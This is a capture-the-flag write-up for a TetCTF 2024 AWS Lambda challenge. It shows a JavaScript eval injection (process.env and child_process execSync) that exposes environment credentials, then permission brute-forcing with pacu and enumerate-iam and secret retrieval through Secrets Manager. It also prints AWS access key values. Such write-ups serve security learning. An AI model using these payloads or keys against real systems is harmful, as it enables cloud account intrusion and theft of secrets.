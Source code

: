 # Challenge link
URL:      [https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome to TetCTF!"](https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome_to_TetCTF!") 

(maybe the server was shut down)

# Challenge description
Let’s see what you can do with this vulnerable API GW endpoint.
Note: AWS Account is not needed for this challenge

# Challenge source file
Blackbox

# Catergory
Web/cloud service exploitation

# Difficulty
Hard

# Author
Chi Tran (Twitter: @imspicynoodles) (Discord: iam.chi)

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/7da8df0c-c3ba-491b-8cc4-a4840e944830)

- There is a parameter on the URL. I tried to modify it:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/b1d4e2c7-166a-4264-b4d6-e73e1e497257)

- The message is "Evaluated User Input" so I think they used *eval()* in the backend, so we can gain RCE. After a while, I realized that they use Javascript for the backend. This is the payload:
  ```
  process.env
  ```
  Or you can use this to read other things on the server:
  ```
  require('child_process').execSync('env', {encoding: 'UTF-8'}).trim().split('\n')
  ```
  (I switched to Burpsuite for convenient)
  
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a18acd23-cb01-450f-9b90-70008e157fc7)

- The challenge is hosted on AWS service and I see some interesting thing like AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY so I search for it on google. There are a few post I found it interesting:
  
  [https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167](https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167)
  
  [https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja](https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja)
  
  [AWS exploit cheatsheet](https://github.com/pop3ret/AWSome-Pentesting/blob/main/AWSome-Pentesting-Cheatsheet.md)
  
- I knew that this website use AWS lambda service. Usually, when deployed, AWS cloud saves information about itself in the Linux server as environment variables, including sensitive things like sessionID, secret key, ... I had all of them, the next mission is exploiting the AWS cloud.

# Problem-solving
  ## Find a priviledged account 
  - I install AWS CLI on my WSL and use those three token:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/14c77bfa-8d67-4954-9103-23b71b7672cb)

  - Set environment variables (AWS cloud service's requirement to access an user account):
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d11e24ef-5239-4656-88e4-ee895d46668f)

  - Now it's time to check if the account is set. I use this AWS command:
    ```
    aws sts get-caller-identity
    (It has the same meaning as *whoami* in Linux)
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/025f4254-4efd-40ca-8fe5-6d5a3d012bf6)

  - AWS S3 is a service that used to storing data of the cloud server. After reaading the cheatsheet (link above), I tried a s3 command:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/c714633d-7834-41b1-9652-5f22fd296434)

  - Maybe this account has restricted priviledge. Since AWS has so many service and command, I used this tool to bruteforce account's priviledge:
    
    [Source code Github](https://github.com/RhinoSecurityLabs/pacu)
    
    Command to install:
    ```
    pip3 install -U pacu
    ```

  - Use pacu to bruteforce priviledge:
    Create new attack session:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a30441b5-07e7-4271-9017-377b2787fd6d)

    Use *ls* to list all the command of the tool. In this scenario, I use *iam__bruteforce_permissions*:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/e82956b2-b214-44de-8c55-6faab1d2e1c2)

    Type Y to accept, and wait for it.

  - After a while, the bruteforce result tell me that this account has very stricted priviledge and cannot do anything more:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d1067780-a9f7-4072-b534-27db5a3aebb5)
    (some not interesting commands)

  - To ensure that, I also use another tool:
    [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

  - And it didn't find anything else:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d3cc96b9-d135-49b2-bbd8-99101a30a296)

  - This is very tricky, so I have to read again all the documents and information I've retrieved. But there is a thing:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/565ce8d0-4897-4797-9eb4-1966222361d4)

  - Other writeups do not have this token. This is so weird, so I asked a cloud engineer about this. He said that the token I used is for execution role but it doesn't have any priviledge. He also said that AWS lambda can ignore that token and use the pre-defined token saved in the environment variable. So, that means the ENV_ tokens above are the correct tokens.

  - Re-setup those token:
    ```
    unset AWS_SESSION_TOKEN (this session token is for execution role that do not have any priviledge, so I have to remove it)
    export AWS_ACCESS_KEY_ID='AKIAX473H4JB76WRTYPI' (replace with the value of ENV_ACCESS_KEY token)
    export AWS_SECRET_ACCESS_KEY='f6N48oKwKNkmS6xVJ8ZYOOj0FB/zLb/QfXCWWqyX' (replace with the value of ENV_SECRET_ACCESS_KEY token)
    ```
  - Then re run this command to check if the setup is done:
    ```
    aws sts get-caller-identity
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/0d4505b5-b6c0-4fd8-b272-e738410dc517)

  - HURRAYYYYYYY!

  ## Bruteforce priviledge
  - After gaining access to secret-user, I should check what command can this user do. I use the enumerate-iam tool for this purpose because it's faster:
    ```
    python3 enumerate-iam.py --access-key AKIAX473H4JB76WRTYPI --secret-key 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 --region ap-southeast-2
    ```
    You can find region in AWS leaked information above.

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/173c95e2-a98e-47d5-9328-8d8a9beaa273)

  - The result give me a suspicious command: *secretsmanager.list_secrets()*. I asked chatGPT about it and get the correct syntax:
    ```
    aws secretsmanager list-secrets
    ```
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/4d29e816-2502-4bc1-a4ad-8222d5013f2c)

  - Now I use this command to read the secret:
    ```
    aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:ap-southeast-2:543303393859:secret:prod/TetCTF/Flag-gnvT27
    ```

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/193788ae-1db1-407f-9b41-1a374fb5df9f)

  - Flag: TetCTF{B0unTy_$$$-50_for_B3ginNeR_2a3287f970cd8837b91f4f7472c5541a}
